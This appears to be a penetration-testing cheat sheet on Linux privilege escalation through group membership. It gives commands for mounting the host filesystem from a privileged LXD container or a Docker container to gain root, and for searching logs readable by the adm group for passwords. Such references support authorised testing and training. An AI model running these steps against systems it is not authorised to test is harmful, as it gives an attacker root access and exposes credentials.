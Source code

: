 ### LXC / LXD

LXD is similar to Docker and is Ubuntu's container manager. Upon installation, all users are added to the LXD group. Membership of this group can be used to escalate privileges by creating an LXD container, making it privileged, and then accessing the host file system at `/mnt/root`. Let's confirm group membership and use these rights to escalate to root.
```bash
devops@NIX02:~$ id
uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)
```

```bash
unzip alpine.zip 
```

```bash
devops@NIX02:~$ lxd init

Do you want to configure a new storage pool (yes/no) [default=yes]? yes
Name of the storage backend to use (dir or zfs) [default=dir]: dir
Would you like LXD to be available over the network (yes/no) [default=no]? no
Do you want to configure the LXD bridge (yes/no) [default=yes]? yes

/usr/sbin/dpkg-reconfigure must be run as root
error: Failed to configure the bridge
```

```bash
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
lxc init alpine r00t -c security.privileged=true
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
lxc start r00t
```

### Docker
```bash
docker ps
docker run -v /:/mnt --rm -it securetransferprod chroot /mnt sh
docker-inspect {{.Config}} <id>
```

### Disk
[This article](https://www.hackingarticles.in/disk-group-privilege-escalation/) :D

### ADM
The adm group is used in Linux for system monitoring tasks. Members of this group can read many log files in `/var/log`, and can use xconsole. Other users cron jobs can be viewed

This could be exploited as confidential information such as user passwords can sometimes end up in certain application or system logs.

```bash
find /var/log/ -group adm
```

```bash
aureport --tty | less
```